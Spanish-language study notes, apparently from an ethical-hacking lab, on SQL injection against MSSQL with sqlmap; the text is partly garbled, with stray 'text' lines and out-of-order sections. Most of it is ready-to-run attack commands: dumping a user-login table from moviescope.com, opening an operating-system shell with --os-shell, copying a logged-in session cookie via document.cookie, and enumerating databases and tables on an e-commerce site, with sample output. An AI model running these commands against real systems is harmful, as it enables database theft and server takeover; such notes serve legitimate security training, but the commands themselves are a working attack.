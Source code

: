 **Extraer datos de tabla específica:**
```bash
sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="mscope=1jwuydl=; ui-tabs-1=0" -D moviescope -T user-Login --dump
```

**Obtener shell del sistema:**
```bash
sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="mscope=1jwuydl=; ui-tabs-1=0" --os-shell
```

**Comandos útiles en shell:**
```bash
TASKLIST
help
```
# 🗃️ Apuntes: SQL Injection con SQLMAP contra MSSQL

## 🎯 Ataque SQL Injection Completo usando SQLMAP

### **Paso 1: Preparación - Obtener Cookie**
1. Navegar a `http://example-ecommerce.com` y hacer login
2. Ir a "View Profile" o página vulnerable
3. **F12** → **Console** → escribir `document.cookie`
4. Copiar el valor de la cookie completa

---

### **Paso 2: Enumerar Bases de Datos**
sqlmap -u "http://example-ecommerce.com/profile.aspx?id=1"
--cookie="SESSIONID=abc123; AUTH=xyz789" --dbs

text

**Ejemplo de salida esperada:**
[] ecommerce_db
[] master
[] tempdb
[] model

text

---

### **Paso 3: Enumerar Tablas de BD Específica**
sqlmap -u "http://example-ecommerce.com/profile.aspx?id=1"
--cookie="SESSIONID=abc123; AUTH=xyz789" -D ecommerce_db --tables

text

**Ejemplo de salida:**
[] customers
[] products
[] user_accounts
[] orders
